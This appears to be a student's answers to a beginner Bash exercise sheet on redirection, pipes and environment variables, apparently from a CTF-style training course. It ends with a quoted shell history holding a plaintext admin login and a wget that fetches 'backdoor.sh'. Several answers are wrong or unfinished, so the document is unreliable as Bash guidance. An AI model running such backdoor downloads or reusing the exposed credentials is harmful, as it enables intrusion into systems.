 Write the message "hello everyone" in a file called "test" by redirecting the output of the echo command.

  		Your command : echo > test "Hello everyone"

Write the message "goodbye" in the same file "test" by redirecting the output of the echo command and without overwriting the content of "test" and check with the cat command

        Your command : echo >> test2  "Goodbye"

Make the ls -la command redirect to the foo file

        Your command : ls -la > foo

Execute find /etc -name *conf* command and redirect errors (only errors) to a file named err.txt

        Your command : find /etc -name *conf*  2> err.txt

Repeat the previous exercise, this time redirecting the errors to the linux nothingness.

        Your command : find /etc -name *config* 2> /dev/null

Now redirect the standard output and the error output of the find /etc -name *conf* command to two different files (std.out and std.err)

        Your command : find /etc -name *config* > std.out 2>std.err 

 What does the mkfifo command do?

         Create named pipes (FIFOs) with the given NAMEs.

Create a pipe named "MyNammedPipe". Then execute the pwd command which will transmit the data in this pipe. Then use the cat command to read the contents of your "MyNammedPipe" pipe.

        Your commands : ######NEED TO WORK ON IT

With cat command, add number the lines in the file /etc/passwd with the command nl

        Your commands : cat -n /etc/passwd 

Using the previous nl command, the head and tail commands, display the lines of /etc/passwd between line 7 and line 12

        Your commands : ###NEED TO WORK ON IT### DIDN'T FIND IT
        


## Bash Environnement  


On your student machine what is the value of the FLAG environment variable ?

    FLAG : BC{EXPORT_B4SH_FLAG}

Currently if you notice your machine, the variable you have created will be deleted. What should you do to make your variable persistent? (With a Bash shell).

    Commands : export variable='myValue'
    

From a hacker's perspective, look for information that might be useful to you in the .history file.

    Your answer: 
    telnet 10.21.55.98 -login admin -pass MyP4ssW0rDiS3CuR3!
	 wget http://10.88.56.53/backdoor.sh
	 